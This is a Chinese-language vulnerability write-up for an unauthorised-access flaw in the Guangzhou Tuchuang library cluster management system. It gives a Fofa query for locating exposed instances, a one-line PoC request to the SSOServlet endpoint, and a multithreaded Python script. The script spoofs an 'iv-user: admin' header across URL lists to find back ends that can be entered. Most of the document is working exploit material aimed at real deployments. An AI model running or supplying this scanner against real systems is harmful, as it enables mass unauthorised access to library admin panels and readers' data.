 
## 广州图创图书馆集群管理系统存在未授权访问
广州图创图书馆集群管理系统是一款为图书馆设计的综合性管理软件。它能够实现对图书、读者、借阅、归还等方面的管理，同时支持各类图书馆的联合管理，提高了馆藏利用率和服务效率。此外，该系统还具有自动化预约提醒、在线预约、自助借还、智能查询等功能，让读者能够更加便捷地使用图书馆资源。该系统采用分布式架构，具有安全可靠的特点，可以根据不同图书馆的需求进行配置，提供优质的服务。该系统的实现，极大地提高了图书馆的管理效率，为读者提供了更好的服务体验。
广州图创计算机软件开发有限公司图书馆集群管理系统存在逻辑绕过，攻击者可通过此漏洞登录后台。

## Fofa
```
body="广州图创计算机软件开发有限公司"
```

## poc
```
GET /interlib/common/SSOServlet? HTTP/1.1
```

## 批量检测脚本
```python
import argparse
import requests
import urllib3
from concurrent.futures import ThreadPoolExecutor
from urllib3.exceptions import InsecureRequestWarning
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Suppress only the single InsecureRequestWarning from urllib3 needed for HTTPS
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

def send_request(url):
    headers = {
        'Cache-Control': 'max-age=0',
        'Upgrade-Insecure-Requests': '1',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
        'Accept-Encoding': 'gzip, deflate',
        'Accept-Language': 'zh-CN,zh;q=0.9',
        'iv-user': 'admin',
        'Connection': 'close'
    }
    try:
        response = requests.get(url + '/interlib/common/SSOServlet?', headers=headers, verify=False)
        if response.status_code == 200:
            print(f'{url} 存在逻辑绕过漏洞.')
        else:
            print(f'{url} no.')
    except requests.RequestException as e:
        print(f'Error scanning {url}: {e}')

def main():
    parser = argparse.ArgumentParser()
    parser.add_argument('-u', '--url', help='Single URL to scan')
    parser.add_argument('-r', '--readfile', help='File containing list of URLs to scan')
    args = parser.parse_args()

    urls = []

    if args.url:
        urls.append(args.url)

    if args.readfile:
        with open(args.readfile, 'r') as file:
            urls.extend([line.strip() for line in file.readlines()])

    with ThreadPoolExecutor(max_workers=15) as executor:
        executor.map(send_request, urls)

if __name__ == "__main__":
    main()

```
